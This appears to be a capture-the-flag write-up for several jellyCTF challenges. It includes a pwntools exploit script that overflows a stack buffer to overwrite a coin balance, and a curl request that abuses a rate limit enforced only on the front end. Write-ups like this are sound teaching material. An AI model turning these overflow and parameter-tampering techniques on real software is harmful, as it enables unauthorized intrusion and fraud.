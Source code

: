 Buffer overflow in line 76. Here we simply need to override the `coin_balance` without breaking the program.


Line 74-76:
```c
    printf("Your order is being processed. Please enter your shipping address: ");
    scanf("\n");
    fgets(address, 1000, stdin);
```

I was too lazy to calculate the location of `coin_balance` on the stack, and instead use binary search to  find it: offset 0xA0 from `address`.

```py
from pwn import *
from struct import pack, unpack

e = context.binary = ELF("./main")

def start(gdbscript="",argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([e.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([e.path] + argv, *a, **kw)

io = start("""b main;continue""")
# io = remote("chals.jellyc.tf", 5002)

prompt = b"Enter a menu selection \n"

def action(mode, answers):
    io.sendlineafter(prompt, str(mode).encode())
    io.recvuntil(b"\n")
    [io.sendline(answer) for answer in answers]

action(2, [b"1", b"1", b"\n" + b"A" * 0xA8])
# action(2, [b"1", b"1", b"\n" + b"A" * 0xA0 + p64(1337)])
io.interactive()
```

### [web] do_not_trust

Nothing much to explain. It is `/robots.txt`

### [web] factory_clicker

In the source code, the click is rate-limited by front-end but not validated on the back-end.
I manually curl POST request to get the flag.

```bash
curl -sSL -X POST https://factory-clicker.jellyc.tf/increment?increment_amount=500000000001
```
